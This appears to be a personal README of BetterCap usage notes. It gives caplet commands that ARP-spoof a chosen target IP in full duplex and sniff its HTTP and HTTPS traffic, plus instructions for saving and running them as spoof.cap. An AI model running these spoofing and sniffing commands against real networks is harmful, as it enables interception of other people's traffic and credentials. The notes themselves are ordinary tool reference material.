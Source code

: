 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />

## To start with the program

Firstally install the bettercap if not installed yet.
</br>Then to start the bettercap with the below command.
<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap - http://

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## spoof.cap - https://

net.probe on
</br>net.recon on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>set net.sniff.local true
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>
